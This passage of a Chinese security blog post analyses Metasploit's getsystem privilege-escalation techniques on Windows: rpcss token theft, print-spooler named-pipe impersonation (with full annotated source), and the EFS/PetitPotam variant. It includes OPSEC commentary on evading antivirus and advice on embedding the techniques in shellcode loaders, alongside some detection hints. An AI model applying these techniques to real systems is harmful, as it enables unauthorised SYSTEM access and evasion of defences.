[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231346-819e3ac0-b7a6-1.png)

查看post\_callback\_use\_rpcss实现，前面通过OpenSCManager、OpenService和QueryServiceStatusEx拿到spcss服务的pid，之后利用OpenProcess拿到这个rpcss服务的句柄

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231405-8cff5714-b7a6-1.png)

当前这个服务的句柄运行在`NT AUTHORITY\NETWORK SERVICE`账户下，虽然不是system但是距离system已经很近了，因为svchost进程是机器账户，而机器账户与用户会话不一样，隔离限制并不强，部分服务是共享会话和句柄：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231428-9b16ea38-b7a6-1.png)

拿到句柄之后利用了get\_system\_token函数去实现提权，提权完毕之后利用SetThreadToken将当前线程关联到一个指定的令牌，最后调用met\_api更新令牌完成提权操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231450-a83772d2-b7a6-1.png)

我们简要分析一下get\_system\_token函数做了什么，利用get\_token\_object\_index获取 Token 对象类型索引，为了拿到NtQueryInformationProcess 函数指针，后面的GetModuleHandle是固定的写法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231654-f2034fb2-b7a6-1.png)

进入do-while循环，利用HeapAlloc分配内存保存进程句柄信息，同时执行NtQueryInformationProcess 函数，当NtQueryInformationProcess函数执行成功就直接退出循环，否则就进行查找合法的句柄信息；有不少服务进程处于保护状态，这里的写法增加了容错率

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231640-e976e778-b7a6-1.png)

执行成功之后，进入for循环遍历进程句柄信息，查找可用的高权限Token句柄。前两个判断Token 对象类型和否具有 TOKEN\_ALL\_ACCESS 权限，之后DuplicateHandle复制句柄，以便在当前进程中使用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231605-d4bd2ed2-b7a6-1.png)

接着利用GetTokenInformation来获取当下特权信息，is\_equal\_luid比较 Token 的 LUID 是否为系统 LUID，接着判断tokenStats.PrivilegeCount和ulMaxPrivCount大小关系，如果tokenStats.PrivilegeCount大于ulMaxPrivCount就更新权限，最后调整拿到hBestToken

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231551-cc513428-b7a6-1.png)

最后拿一张图片总结一下流程：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231524-bc25ff7a-b7a6-1.png)

##### OPSEC 操作安全

这项技术无需落地文件全程工作在内存中，适用范围广泛，创建的文件也没有明显特征，可以说是opsec success的技术了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231624-e0284d1a-b7a6-1.png)

#### 第五种技术 elevate\_via\_namedpipe\_printspooler

这项技术利用了打印机的特性，打印机spoolsv.exe进程本身是system权限，通过Server Names路径规范化解析的缺陷诱导打印机访问我们的恶意命名管道获得system权限：

如果主机名包含`/`，它将通过路径检验，但是在计算要连接的命名管道的路径时，规范化会将其转换为`\`

```plain
规范化前   localhost/test 
规范化后   localhost\test
```

打印机的特性会自动添加`\pipe\spoolss`在路径结尾，我们可以构造一个以`\pipe\spoolss`结尾的恶意管道即可欺骗打印机链接，举个例子

```plain
一开始给api的参数形式
\\localhost/pipe/test
windows内部路径规范后
\\localhost\pipe\test
打印机特性最终打印机进程请求的管道名称
\\localhost\pipe\test\pipe\spoolss
```

windows公开的RpcRemoteFindFirstPrinterChangeNotification函数可以让打印机对我们的命名管道进行认证pszLocalMachine就是我们要欺骗的地址

```plain
DWORD RpcRemoteFindFirstPrinterChangeNotification(
   [in] PRINTER_HANDLE hPrinter, 
   [in] DWORD fdwFlags,
   [in] DWORD fdwOptions,
   [in, string, unique] wchar_t* pszLocalMachine, 
   //pszLocalMachine参数这里构造我们恶意的服务命名管道，放入\\localhost/pipe/test
   [in] DWORD dwPrinterLocal, 
   [in, range(0,512)] DWORD cbBuffer,
   [in, out, unique, size_is(cbBuffer), disable_consistency_check] 
     BYTE* pBuffer
 );
```

DWORD WINAPI trigger\_printer\_connection(LPWSTR pPipeName)中，核心的打印机触发逻辑代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231809-1e432bf6-b7a7-1.png)

下面是带有注释的完整代码解释，可以看到核心变化就在打印机上，其他并没有变化：

```plain
DWORD elevate_via_namedpipe_printspooler(Remote* remote, Packet* packet)
{
    DWORD dwResult = ERROR_SUCCESS;
    THREAD* pThread = NULL;
    HANDLE hSem = NULL;
    char cPipeName1[MAX_PATH] = { 0 };
    WCHAR cPipeName2[MAX_PATH] = { 0 };
    DWORD dwPipeUid[2] = { 0, 0 };
    OSVERSIONINFOEXW os = { 0 };
    HMODULE hNtdll = NULL;
    PRtlGetVersion pRtlGetVersion = NULL;
    PRIV_POST_IMPERSONATION PostImpersonation;

    do {
        // 1. 检查命名管道是否存在
        if (!does_pipe_exist(L"\\\\.\\pipe\\spoolss")) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: \\pipe\\spoolss is not listening.");
        }

        // 2. 获取 Ntdll 模块和系统版本信息
        hNtdll = GetModuleHandleA("ntdll");
        if (hNtdll == NULL) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Failed to resolve RtlGetVersion");
        }

        pRtlGetVersion = (PRtlGetVersion)GetProcAddress(hNtdll, "RtlGetVersion");
        if (pRtlGetVersion == NULL) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Failed to resolve RtlGetVersion");
        }

        os.dwOSVersionInfoSize = sizeof(OSVERSIONINFOEXW);

        if (pRtlGetVersion(&os)) {
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: RtlGetVersion failed");
        }

        // 3. 检查系统版本是否支持
        if (os.dwMajorVersion < 6 || (os.dwMajorVersion == 6 && os.dwMinorVersion < 3)) {
            SetLastError(ERROR_CALL_NOT_IMPLEMENTED);
            BREAK_ON_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler: Windows version not supported.")
        }

        // 4. 生成随机命名管道名
        dwPipeUid[0] = ((rand() << 16) | rand());
        dwPipeUid[1] = ((rand() << 16) | rand());

        _snprintf_s(cPipeName1, sizeof(cPipeName1), MAX_PATH, "\\\\.\\pipe\\%08x%08x\\pipe\\spoolss", dwPipeUid[0], dwPipeUid[1]);
        _snwprintf_s(cPipeName2, sizeof(cPipeName2), MAX_PATH, L"%08x%08x", dwPipeUid[0], dwPipeUid[1]);

        // 5. 创建信号量（Semaphore）
        hSem = CreateSemaphore(NULL, 0, 1, NULL);
        PostImpersonation.pCallback = set_meterp_thread_use_current_token;
        PostImpersonation.pCallbackParam = remote;

        // 6. 创建线程并运行
        pThread = met_api->thread.create(elevate_namedpipe_thread, &cPipeName1, hSem, &PostImpersonation);
        if (!pThread) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. met_api->thread.create failed",
                ERROR_INVALID_HANDLE);
        }

        if (!met_api->thread.run(pThread)) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. met_api->thread.run failed",
                ERROR_ACCESS_DENIED);
        }

        // 7. 等待线程创建命名管道，如果超时则输出错误信息并返回
        if (hSem) {
            if (WaitForSingleObject(hSem, 500) != WAIT_OBJECT_0) {
                BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. WaitForSingleObject failed",
                    ERROR_ACCESS_DENIED);
            }
        }
        else {
            Sleep(500);
        }
        // 8. 触发打印机连接
        trigger_printer_connection(cPipeName2);

        // 9. 通知线程终止
        met_api->thread.sigterm(pThread);

        // 10. 等待线程终止
        met_api->thread.join(pThread);

        // 11. 获取线程的退出代码
        dprintf("[ELEVATE] dwResult before exit code: %u", dwResult);
        if (!GetExitCodeThread(pThread->handle, &dwResult)) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. GetExitCodeThread failed",
                ERROR_INVALID_HANDLE);
        }
        dprintf("[ELEVATE] dwResult after exit code: %u");
    } while (0);

    // 12. 清理资源
    if (pThread) {
        met_api->thread.destroy(pThread);
    }
    if (hSem) {
        CloseHandle(hSem);
    }
    // 13. 返回结果代码
    return dwResult;
}
```

##### OPSEC 操作安全

我们从刚才都阅读源码本身不难看出特征在管道上，我们通过进程监控工具process monitor对msf本身只能看到一堆线程创建和线程退出，这种行为在操作系统中非常频繁对于杀毒来说监控每个线程的特征无疑是非常困难的；如下图，整个提权期间现场创建和网络通信：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231846-34696a8a-b7a7-1.png)

我们发现spoolsv.exe打印机进程出现的明显的提权特征，命名管道结尾是`\pipe\spoolss`，这是一个不错的地方用来监控提权行为，也许杀毒可以从这入手阻止命名管道的创建，同时我们注意到命名管道存在是时间是如此短暂，在一秒内提权就完成，真是迅速的攻击；（下图文字描述有错误，第一个红框createfile除了创建文件也有打开文件的意思，创建文件发生在msf的线程中）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231909-426d06aa-b7a7-1.png)

#### 第六种技术 elevate\_via\_namedpipe\_efs

这项技术利用的是PetitPotato中的MS-EFSR(Encrypting File System Remote)协议，通过调用EfsRpcOpenFileRaw方法欺骗lsass.exe进程访问我们的命名管道，我们已经很熟悉了

```plain
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName, //这里放我们的恶意管道
   [in] long Flags
 );
```

值得一提的是这项技术原本被微软修复过，但是后面研究人员发现了新的绕过方法，利用了RpcBindingSetAuthInfoW函数重新设置AuthnLevel的值为RPC\_C\_AUTHN\_LEVEL\_PKT\_PRIVACY，这绕过方法rpc绑定建立的过程中的[msf源码](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/priv/namedpipe_efs.c)实现也能看到:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231937-52d507e0-b7a7-1.png)

截至写完文章发表，依然能工作在最新的windows10/11/2019上，对于这种RPC利用微软已经把这类提权的归属于程序预期之中，不属于漏洞，看样子也没打算修复，~攻击面太多压根修不完~，应该能用很长时间

让我们最后简要分析一下核心的提权代码：

1.  从os.dwMajorVersion获取信息，不能小于6意味着[Windows Server 2008](https://en.wikipedia.org/wiki/Windows_Server_2008)以前的系统都将无法工作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120232007-65066918-b7a7-1.png)

1.  检查`lsarpc`和`efsrpc`两个命名管道是否存在。如果两者都不存在，就会查询EFS服务的状态，根据管道的存在情况和系统版本，选择相应的UUID和命名管道,注释中也解释了Windows Vista 和Server 2008 只支持 `\pipe\lsarpc`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120232025-6fa8e22e-b7a7-1.png)

1.  准备带有随机字符的命名管道和回调线程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120232043-7a48f106-b7a7-1.png)

1.  触发trigger\_efs\_connection()函数，到这里漏洞就应该利用成功了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120232102-856a9634-b7a7-1.png)

1.  深入看一下trigger\_efs\_connection的工作，传递进来的三个参数分别用于了efs\_bind和StubEfsRpcEncryptFileSrv，efs\_bind是建立rpc绑定，在rpc调用之前需要拿到ht句柄，再利用存根函数StubEfsRpcEncryptFileSrv去触发身份认证（StubEfsRpcEncryptFileSrv具体实现在rpc服务端内部，这里是看不到源码的）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224719-cfe37b0e-b7a2-1.png)

##### OPSEC 操作安全

这类的和之前一样，就不赘述了。

### 更加灵活的提权方案与过去的意外事故

我不由的想起来去年的某个靶场环境，当时和@arui打的一个靶机，有一个溢出的权限提升的CVE只能使用一次，但是我通过cs自带的进程欺骗功能把自己低权限的进程指向了提权溢出进程的pid，从而获得了高权限，我记得没错的话当时还使用steal\_token命令，极有可能是exp当时的令牌权限或者句柄权限是允许所有用户的访问的，如果碰上只能打一次的环境，又疲于修改exp可以用这个小技巧尝试一下。

回到主题，毫无疑问，大部分的杀毒和日志检测都对msf的提权技术查杀严重，我们可以把这类技术独立出来编写进shellcode加载器里面，这样一上线就是高权限的beacon，根据OPSEC重新实现这部分的技术将会更好规避行为检测

### 总结

首先我们认识了Windodws访问控制的基本工作原理，之后认识了通过命名管道和RPC调用来获取高权限的令牌的手法，最后分析了6种getsystem源码实现的令牌窃取，还简单探讨了每种技术的OPSEC，了解这幕后的工作原理有助于我们应对更加复杂渗透环境

参考资料：

[https://docs.rapid7.com/metasploit/meterpreter-getsystem/](https://docs.rapid7.com/metasploit/meterpreter-getsystem/)  
[https://learn.microsoft.com/en-us/windows/win32/secauthz/about-authorization](https://learn.microsoft.com/en-us/windows/win32/secauthz/about-authorization)  
[https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win\_security\_meterpreter\_or\_cobaltstrike\_getsystem\_service\_install.yml](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win_security_meterpreter_or_cobaltstrike_getsystem_service_install.yml)  
[https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)  
[https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/modify-an-object-label](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/modify-an-object-label)  
[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/named-pipe-client-impersonation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/named-pipe-client-impersonation)  
[https://paper.seebug.org/2090/](https://paper.seebug.org/2090/)  
[https://learn.microsoft.com/en-us/shows/defrag-tools/2-process-explorer](https://learn.microsoft.com/en-us/shows/defrag-tools/2-process-explorer)  
[https://github.com/rapid7/metasploit-framework/pull/14030](https://github.com/rapid7/metasploit-framework/pull/14030)  
[https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html](https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html)  
[https://windows-internals.com/faxing-your-way-to-system/](https://windows-internals.com/faxing-your-way-to-system/)
